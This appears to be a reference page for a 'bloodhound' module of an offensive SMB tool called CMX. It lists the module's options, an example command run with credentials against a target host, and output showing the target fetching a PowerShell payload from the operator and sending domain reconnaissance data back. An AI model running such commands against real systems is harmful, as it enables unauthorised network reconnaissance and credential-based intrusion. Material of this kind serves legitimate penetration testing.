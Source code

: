 





# SMB Modules Reference
--------------------------------------------------------------------------------------------------------------------------------------------------------
## bloodhound 
Executes the BloodHound recon script on the target and retreives the results onto the attackers' machine

**Notes:**
CMX uses this bloodhound.ps1 file   
XXX
which may be out-of-date with the latest bloodhound(sharphound) release
  
Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | false | true  

**Options:**
```
        THREADS           Max numbers of threads to execute on target (defaults to 20)
        COLLECTIONMETHOD  Method used by BloodHound ingestor to collect data (defaults to 'Default') 
                                Can be 'Group','ACLs','ComputerOnly','LocalGroup','GPOLocalGroup', 'Session','LoggedOn','Trusts','Stealth', or 'Default'
        CSVPATH           (optional) Path where csv files will be written on target (defaults to C:\)
        NEO4JURI          (optional) URI for direct Neo4j ingestion (defaults to blank)
        NEO4JUSER         (optional) Username for direct Neo4j ingestion
        NEO4JPASS         (optional) Pass for direct Neo4j ingestion
```

**Example Usage:**
```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M bloodhound -o THREADS=25 COLLECTIONMETHOD=Default
```
**Expected Results:**
```
[!] Module is not opsec safe, are you sure you want to run this? [Y/n] Y
SMB         192.168.1.121    445    DESKTOP1         [*] Windows 7 Ultimate N 7601 Service Pack 1 x64 (name:DESKTOP1) (domain:PACIFIC) (signing:False) (SMBv1:True)
SMB         192.168.1.121    445    DESKTOP1         [+] PACIFIC\tcat:User!23 (Pwn3d!)
BLOODHOU... 192.168.1.121    445    DESKTOP1         [+] Executed launcher
BLOODHOU...                                         [*] Waiting on 1 host(s)
BLOODHOU... 192.168.1.121                            [*] - - "GET /BloodHound-modified.ps1 HTTP/1.1" 200 -
BLOODHOU... 192.168.1.121                            [+] Executing payload... this can take a few minutes...
BLOODHOU...                                         [*] Waiting on 1 host(s)
BLOODHOU... 192.168.1.121                            [*] - - "POST / HTTP/1.1" 200 -
BLOODHOU... 192.168.1.121                            [*] Saved csv output to user_sessions-192.168.1.121-2018-11-28_120010.csv
BLOODHOU... 192.168.1.121                            [*] Saved csv output to group_membership.csv-192.168.1.121-2018-11-28_120010.csv
BLOODHOU... 192.168.1.121                            [*] Saved csv output to local_admins.csv-192.168.1.121-2018-11-28_120010.csv
BLOODHOU... 192.168.1.121                            [*] Saved csv output to trusts.csv-192.168.1.121-2018-11-28_120010.csv
BLOODHOU... 192.168.1.121                            [+] Successfully retreived data
```
